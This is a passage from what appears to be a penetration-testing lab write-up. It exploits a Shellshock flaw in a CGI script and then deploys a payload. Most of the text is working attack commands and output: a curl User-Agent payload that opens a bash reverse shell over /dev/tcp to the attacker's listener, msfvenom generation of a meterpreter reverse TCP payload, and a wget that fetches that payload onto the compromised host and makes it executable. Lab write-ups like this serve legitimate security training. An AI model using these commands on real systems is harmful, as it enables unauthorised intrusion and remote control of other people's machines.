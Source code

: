 > Yes! We confirmed that there is a `shellshock` vulnerability.
{: .prompt-info }

### reverse shell
#### start listener on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

#### trigger reverse shell
```bash
$ curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/192.168.49.150/80 0>&1" http://192.168.150.87/cgi-bin/test
```

#### catch connection from server
```bash
$ nc -lvp 80      
listening on [any] 80 ...
192.168.150.87: inverse host lookup failed: Unknown host
connect to [192.168.49.150] from (UNKNOWN) [192.168.150.87] 43835
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
```

> Bam! We got a shell :-)
{: .prompt-info }

---

# post exploitation
## deploy `meterpreter`
### generate `meterpreter` payload
```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.49.228 LPORT=443 -f elf > shell.elf
```

### provide payload via simple web server
```bash
$ python3 -m http.server 80                                                       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### upload `meterpreter` to target
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ wget http://192.168.49.228/shell.elf -O /tmp/shell
www-data@ubuntu:/usr/lib/cgi-bin$ chmod +x /tmp/shell
```
